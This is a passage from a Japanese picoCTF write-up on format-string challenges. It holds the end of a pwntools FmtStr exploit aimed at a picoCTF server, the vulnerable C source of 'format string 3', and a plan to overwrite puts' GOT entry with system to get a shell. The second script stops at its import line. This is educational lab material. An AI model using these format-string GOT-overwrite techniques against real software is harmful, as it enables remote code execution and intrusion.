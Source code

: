 ```python
        return pwn.remote("rhea.picoctf.net", 51654)
    else:
        return pwn.process(exe.path)


def send(p):
    io = connect(False)

    pwn.log.info("payload  = %s" % repr(p))
    io.sendline(p)
    resp = io.recvall()
    if b"picoCTF" in resp:
        pwn.log.info("Flag = %s" % resp)
    return resp


sus_addr = 0x404060

fs = pwn.FmtStr(execute_fmt=send)
fs.write(sus_addr, 0x67616C66)
fs.execute_writes()
```
## format string 3
ソースコードが渡された。
```c
#include <stdio.h>

#define MAX_STRINGS 32

char *normal_string = "/bin/sh";

void setup() {
        setvbuf(stdin, NULL, _IONBF, 0);
        setvbuf(stdout, NULL, _IONBF, 0);
        setvbuf(stderr, NULL, _IONBF, 0);
}

void hello() {
        puts("Howdy gamers!");
        printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}

int main() {
        char *all_strings[MAX_STRINGS] = {NULL};
        char buf[1024] = {'\0'};

        setup();
        hello();

        fgets(buf, 1024, stdin);
        printf(buf);

        puts(normal_string);

        return 0;
}
```
`main`関数の最後に`"/bin/sh"`を`puts`に渡すというこれ見よがしな処理をしている。
また、明らかなformat stringの脆弱性がある。よって、format stringで`puts`のGOTを`system`に書き換えればシェルが取れそう。
```python
#!/usr/bin/env python3
import pwn
```